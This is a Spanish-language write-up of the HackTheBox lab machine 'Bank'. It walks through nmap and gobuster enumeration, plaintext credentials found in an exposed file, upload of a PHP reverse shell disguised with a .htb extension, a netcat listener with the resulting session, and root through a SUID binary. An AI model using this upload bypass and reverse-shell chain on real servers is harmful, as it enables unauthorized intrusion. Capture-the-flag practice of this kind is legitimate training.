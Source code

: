 ```yaml
---
layout      : post
title       : "Bank - HackTheBox"
author      : elc4br4
image       : /assets/images/HTB/Bank-HackTheBox/Bank.webp
optimized_image : /assets/images/HTB/Bank-HackTheBox/Bank.webp
category    : [ htb ]
tags        : [ Linux ]
description: 💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!
---
```


💲En esta ocasión explotaremos una máquina Easy de HackTheBox muy pero muy sencilla, tendremos que obtener unas credenciales de acceso al servidor web y después subir una reverse shell para poder conseguir acceso al sistema. La escalada de privilegios es un auténtico regalito🎁💲!!

![](/assets/images/HTB/Bank-HackTheBox/rating-bank.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
    * [Reconocimiento de Puertos](#recon-nmap).
2. [Enumeración](#enumeración).
    * [Enumeración Web](#enum-web).
3. [Explotación](#explotacion).   
    * [Reverse Shell](#rev-shell).     
4. [Escalada de Privilegios](#privesc). 
    * [Emergency](#emergency).   

# Reconocimiento [#](reconocimiento) {#reconocimiento}

## Reconocimiento de Puertos [📌](#recon-nmap) {#recon-nmap}

```nmap
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
53/tcp open  domain  syn-ack
80/tcp open  http    syn-ack
```

Escaneamos servicios y las versiones de los mismos.

```nmap
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
| http-title: HTB Bank - Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Aquí tenemos un servidor web en el puerto 80 (http), el puerto 53 (DNS) y el puerto 22 (ssh).

Añadimos al archivo host la ip y el dominio bank.htb

Procedo a enumerar el servidor web

# Enumeración [#](enumeración) {#enumeración}

## Enumeración Web [📌](#enum-web) {#enum-web}

Encontramos un login para acceder pero no tenemos credenciales, asique me pongo a enumerar rutas en el servidor para ver que tenemos.

![](/assets/images/HTB/Bank-HackTheBox/web1.png)

Para enumerar las rutas uso gobuster

![](/assets/images/HTB/Bank-HackTheBox/gobuster.png)

Encuentro la ruta balance-transfer y dentro de ella una lista bastante grande con archivos.

![](/assets/images/HTB/Bank-HackTheBox/web2.png)

Abro uno de ellos aleatoriamente

![](/assets/images/HTB/Bank-HackTheBox/data1.png)

Parece que la data está encriptada, pero tras probar y probar y no consigo desencriptarla.

Sigo buscando en la lista de archivos y me fijo en el tamaño de cada uno, suelen rondar entre los 582 y 585 el tamaño de los archivos, asique buscando encuentro uno de ellos que tiene de tamaño 257.

![](/assets/images/HTB/Bank-HackTheBox/web3.png)

Al abrirlo encuentro unas credenciales en texto plano.

![](/assets/images/HTB/Bank-HackTheBox/data2.png)

Usaré las credenciales para iniciar sesión en el panel web.

Una vez dentro encontramos un panel con todas las transacciones y datos bancarios.

![](/assets/images/HTB/Bank-HackTheBox/web4.png)

# Explotación [#](explotacion) {#explotacion}

## Reverse Shell [🔥](#rev-shell) {#rev-shell}

Navegando por la web me dirijo a Support y encuentro una formulario donde puedo subir un archivo.

![](/assets/images/HTB/Bank-HackTheBox/web5.png)

Tras ver eso creo un archivo con una reverse shell en php de la siguiente fuente:

[https://pentestmonkey.net/tools/web-shells/php-reverse-shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell)

Edito la ip y el puerto.

Una vez lista la reverse shell la subo al servidor.

![](/assets/images/HTB/Bank-HackTheBox/errorweb.png)

Pero me arroja ese error, solo se pueden subir imágenes al servidor.

Tras probar a editar el content-type en Burpsuite para bypassear la restricción no tengo éxito asique procedo a analizar el código del support.php donde encuentro el siguiente comentario:

> "[DEBUG] I added the file extension .htb to execute as php for debugging purposes only [DEBUG]" 

Si cambiamos la extensión de .php a .htb podemos ejecutar los archivos php.

Subimos el archivo y listo:

![](/assets/images/HTB/Bank-HackTheBox/web6.png)

Ahora nos abrimos un listener netcat en el puerto configurado en la rev shell

`nc -lnvp 1234`

Ejecutamos el archivo desde el panel web y tenemos la conexión inversa.

```shell
❯ nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.29] 48610
Linux bank 4.4.0-79-generic #100~14.04.1-Ubuntu SMP Fri May 19 18:37:52 UTC 2017 i686 athlon i686 GNU/Linux
 00:27:22 up  1:08,  0 users,  load average: 0.00, 0.00, 0.08
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ whoami
www-data
```

Una vez dentro ya podemos leer el user.txt

Ahora toca escalar privilegios


# Escalada de Privilegios [#](privesc) {#privesc}

## Emergency [🚑](emergency) {#emergency}

Busco binarios SUID de propietarios root con el comando find 

```bash
www-data@bank:/home/chris$ find / -type f -user root -perm -4000 2>/dev/null
/var/htb/bin/emergency
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/traceroute6.iputils
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/mtr
/usr/sbin/pppd
/bin/ping
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/umount
```
Tenemos el binario emergency

Asique pruebo a ejecutarlo para ver que sucede o que he de hacer...

```bash
www-data@bank:/home/chris$ /var/htb/bin/emergency
# id
uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
# whoami 
root
```

Lo ejecuto y para mi sorpresa ya soy root!!!

![](/assets/images/HTB/Bank-HackTheBox/dollar.gif)
